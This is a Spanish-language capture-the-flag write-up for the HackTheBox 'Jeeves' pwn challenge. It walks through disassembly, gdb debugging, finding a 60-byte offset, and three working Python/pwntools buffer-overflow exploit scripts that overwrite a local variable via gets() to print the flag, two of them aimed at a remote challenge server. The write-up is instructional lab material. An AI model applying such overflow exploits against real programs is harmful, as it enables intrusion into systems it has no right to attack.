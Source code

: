 ```yaml
---
title: Jeeves - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/image.png)

Este es un reto de pwning el cual implica explotar una vulnerabilidad Buffer Overflow en un binario de 64 bits. El objetivo principal es sobrescribir el valor de un registro de memoria en específico, el cual se emplea en una condición dentro del programa; la cual si resulta ser verdadera, provocará que este imprima la flag.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled.png)

Como se observa a continuación, el binario recibe un input del usuario, el cual es impreso en el output resultante de la ejecución:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%201.png)

Al analizar el código Assembler se identifican dos instrucciones importantes en la función **main**.

Primeramente se asigna el valor `0xdeadc0d3` al registro `rbp-4` , a través de la instrucción **MOV**.

```jsx
0x00005555555551f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
```

Posterior a esto, dicho valor es sometido a un condicional, a través de una instrucción **CMP**, de comparación, con el valor `0x1337bab3`.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%202.png)

Al observar el código fuente, reverseado con **Ghidra**, se puede entender mucho mejor cómo funciona el programa.

Como se visualiza en imagen, el valor de la variable `target_variable` es sometido a un condicional. Si dicho valor es igual a `0x1337bab3`, el programa imprimirá el contenido del archivo `flag.txt`, caso contrario no lo hará y sólo terminará la ejecución: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%203.png)

Es importante mencionar que en el código reverseado se identifica que el programa recibe el input del usuario a través de la función `gets`, la cual es vulnerable a ataques de desbordamiento de buffer, de acuerdo a su documentación:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%204.png)

Sabiendo esto, se procede a debuggear el binario, utilizando la herramienta **gdb-gef**.

Previo a arrancar, se debe crear un archivo `flag.txt`, de prueba, debido a que el programa lee el contenido de este para obtener el valor de la flag: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%205.png)

Hecho esto, se procede a abrir el binario con **gdb-gef**, donde se establece un breakpoint en la instrucción de memoria, en la cual se realiza la comparación del valor `0x1337bab3` con el valor almacenado en el registro `rbp-0x4`:

```jsx
0x0000555555555236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%206.png)

Al ejecutar el programa, con el breakpoint en el condicional, se logra visualizar que el valor almacenado en el registro `rbp-4`, corresponde a `0xdeadc0d3`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%207.png)

A modo de prueba se modifica el valor de dicho registro de memoria por `0x1337bab3`, con el objetivo de que el resultado de la condición sea verdadero:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%208.png)

Como se mostró en la imagen anterior, cuando el resultado de la condicional es verdadero, el programa imprime la flag, almacenada en el archivo `flag.txt`.

Sin embargo, para lograr el desafío de HTB no podemos usar **gdb**, debemos lograrlo directamente a través de un Buffer Overflow.

Para esto, primeramente podemos identificar que se configura el input del usuario, el cual como límite debe ser una cadena de 44 bytes:

```c
char user_name [44];
int flag_content;
void *flag_length;
int target_variable;
```

Si metemos más caracteres de los que soporta el valor de la variable, el buffer se sobrescribe al momento de llamar a la función `gets`, lo cual causa que el programa no termine su ejecución de manera exitosa:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%209.png)

Sabiendo esto, se crea una cadena de 100 bytes con la herramienta `pattern create`, de gdb, la cual se inyecta en el input para detectar el offset, que corresponde a todo el junk previo a meter para sobrescribir el valor almacenado en `rbp-4`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2010.png)

Como se puede ver, luego de inyectar dicha entrada de caracteres, se detecta que el offset es 60:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2011.png)

De esta manera, lo que se puede concluir hasta ahora, es que tenemos que introducir 60 caracteres antes de sobrescribir el valor de `rbp-4`.

De esta forma, a modo de validar la sobreescritura de `rbp-4` se crea la siguiente cadena, la cual son 60 As y 6 Bs:

```jsx
┌──(sha16㉿offs3c)-[~]
└─$ python3 -c "print('\x41'*60+'\x42'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```

Posterior a la inyección de la cadena creada, se determina que el offset es correcto, dado que el valor de `rbp-4` es `BBBBBB`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2012.png)

Dado esto, se procede a armar el siguiente exploit en Python3, el cual se encarga de inyectar el valor en el registro `rbp-4`:

```python
#!/usr/bin/python3

from pwn import context, process, p64

if __name__ == '__main__':
    # Set program context
    context.update(arch='amd64', os='linux')
    elf = process('./jeeves')

    # BoF
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    # Send payload
    elf.sendline(payload)
    elf.interactive()
```

Al ejecutar el exploit, se observa que la flag es obtenida correctamente:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2013.png)

Sabiendo que el exploit funciona, ahora este puede ser adaptado a una versión remota para obtener el flag de HackTheBox y completar el reto correctamente:

```python
#!/usr/bin/python3

from pwn import p64
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    with socket() as s:
        s.connect((host, port))
        s.send(payload)
        print(s.recv(4096))
        print(s.recv(4096))
```

Al ejecutar el exploit, se obtiene con éxito la flag del desafío:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2014.png)

De forma aparte, me gustaría mostrarles cómo con la librería de pwntools también pueden crear su propio exploit, un tanto más elegante:

```python
#!/usr/bin/python3

from pwn import remote, p64, success
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'
		
    # Remote Connection
    connection = remote(host, port)
    connection.sendline(payload)
    connection.recvuntil(b'Here\'s a small gift:')
    flag = connection.recv(4096)
    success(b'HTB Flag:' + flag)
```

Al ejecutarlo la flag es obtenida a través de un output mucho más limpio:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2015.png)

Eso es todo, espero que le haya gustado y servido mucho este post para aprender algunos conceptos básicos de binary exploitation. La verdad es una temática en la que recién me estoy adentrando y compartirles esto me sirve mucho para retroalimentar estos conceptos. 

Cualquier duda, consulta, corrección, etc., saben que me pueden contactar en LinkedIn o Twitter 👾

Happy Hacking 🏴‍☠️